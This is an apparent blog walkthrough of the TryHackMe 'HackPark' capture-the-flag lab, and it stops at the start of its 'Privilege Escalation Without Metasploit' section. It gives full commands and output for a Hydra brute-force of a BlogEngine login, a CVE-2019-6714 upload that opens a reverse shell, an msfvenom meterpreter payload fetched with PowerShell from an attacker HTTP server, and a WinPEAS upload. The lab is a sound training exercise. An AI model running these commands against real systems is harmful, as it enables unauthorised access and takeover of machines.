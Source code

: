 ```yaml
---
layout: post
title: THM — HackPark
date: 2022-09-29 00:00:00 -500
categories: [TryHackMe]
tags: [Hydra]
---
```


<img src="/assets/images/HackPark/logo.png" alt="HackPark Logo" width="30%">

***
<center><strong><font color="White">Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!</font></strong></center>

***

## <strong><font color="#34A5DA">Reccon</font></strong>

After deploying the machine we can run basic nmap scan for open ports & services on the target machine.

```console
vladislav@Mac ~ % nmap -sV 10.10.205.86
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-28 23:06 MSK
Nmap scan report for 10.10.205.86
Host is up (0.068s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.41 seconds
```

We can see that there is an HTTP service on port 80, then we open `10.10.205.86:80` in browser.

There we are interested in the login page. Inspecting the login form we can find out that it's using POST request type.

<img src="/assets/images/HackPark/1.png" alt="Inspecting the site" width="70%">

Moreover, the url of the login page is the following: `http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/`.

***

## <strong><font color="#34A5DA">Using Hydra for brute-forcing the login</font></strong>

Now we know the URL, request type and probably the login name, so we can start brute-force with Hydra.

However, first we need to intercept the POST request using Burp Suite.

```http
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.205.86
Content-Length: 578
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.205.86
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=user&ctl00%24MainContent%24LoginUser%24Password=pass&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8
```

Now we can use Hydra for cracking the password.

> [Good notes on hydra](https://github.com/gnebbia/hydra_notes)

We set username with `-l admin`, password list with `-P /share/wordlists/rockyou.txt`, target machine IP, HTTP form and "request string".

Request string contains of three elements separated by `:`:

* pageOnWhichTheLoginHappens
* list of parameters, here we have to specify with `^USER^` and `^PASS^` where usernames and passwords will be inserted
* a character which may be F (for failing strings) or S for successful strings followed by an equal sign `=` and a string which appears in a failed attempt or in a successful attempt

So in our case request string contains:

* `/Account/login.aspx?ReturnURL=/admin/` from the URL
* "`__VIEWSTATE`". There we should change two things: `UserNameuser` to `UserName=^USER^` and `Password=pass` to `Password=^PASS^`
* S=Success.

Here's the final hydra payload:

```bash
hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
```

```console
vladislav@Mac ~ % hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-29 00:06:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking http-post-form://10.10.80.203:80/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed
[STATUS] 995.00 tries/min, 995 tries in 00:01h, 14343406 to do in 240:16h, 16 active
[80][http-post-form] host: 10.10.80.203   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-29 00:08:15
```

So, the password is `1qaz2wsx`.

***

## <strong><font color="#34A5DA">Compromizing the machine</font></strong>

After logging into admin account we can find the blogengine version: `3.3.6.0`.

![BlogEngine About page](/assets/images/HackPark/2.png)

Searching on exploit-db, we can find the [vulnerability](https://www.exploit-db.com/exploits/46353). CVE-2019-6714. Download the script.

Firstly, we need to modify the script by changing the IP and Port of TCP connection.

Secondly, we need to rename the script:

```bash
mv 46353 PostView.ascx
```

Thirdly, we setup a reverse TCP listener. We can do this using netcat.

```console
vladislav@Mac ~ % netcat -nlvp 4445
```

After that we should upload the script using blogengine control panel:
1. Switch to *Dashboard*
2. Go to "*Published Posts*"
3. Go to "*Welcome to HackPark*"
4. In the text editor press the button "*File Manager*" and upload the PostView.ascx

Finally, go to `http://10.10.10.10/?theme=../../App_Data/files`. If everything done right, we recieve the connection.

```console
vladislav@Mac Downloads % netcat -nlvp 4445
Connection from 10.10.29.8:49232
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

***

## <strong><font color="#34A5DA">Windows Privilege Escalation</font></strong>

According to the next task we need to generate another reverse shell using msfvenom.

First, we need to generate the executable with msfvenom. Use another port!

```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.7.222 LPORT=4446 -f exe > rev_shell.exe

```

Next, start a simple HTTP server on your attack machine:
```bash
python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```

On the reverse shell download the script:
```
powershell -c Invoke-WebRequest -uri "http://10.18.7.222:8000/rev_shell.exe" -outfile "C:\\Windows\temp\rev_shell.exe"
```

Next, we need to setup a Metasploit TCP Reverse Shell:

```bash
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.7.222
msf6 exploit(multi/handler) > set LPORT 4446
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.18.7.222:4446 
```

Run the uploaded script on the target machine:
```
cd \windows\temp
.\rev_shell.exe
```

If everything done right, we get the meterpreter reverse TCP session:
```bash
[*] Started reverse TCP handler on 10.18.7.222:4446 
[*] Sending stage (175686 bytes) to 10.10.29.8
[*] Meterpreter session 1 opened (10.18.7.222:4446 -> 10.10.29.8:49264) at 2022-09-29 16:32:08 +0300

meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

Next, let's use WinPEAS — a script that search for possible paths to escalate privileges on Windows hosts:
```bash
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

On the meterpreter session:
```bash
meterpreter > upload winPEAS.bat c:\\windows\\temp
[*] uploading  : /Users/vladislav/winPEAS.bat -> c:\windows\temp
[*] uploaded   : /Users/vladislav/winPEAS.bat -> c:\windows\temp\winPEAS.bat
```

Run the script:
```bash
c:\Windows\Temp>.\winPEAS.bat
```

***

## <strong><font color="#34A5DA">Privilege Escalation Without Metasploit</font></strong>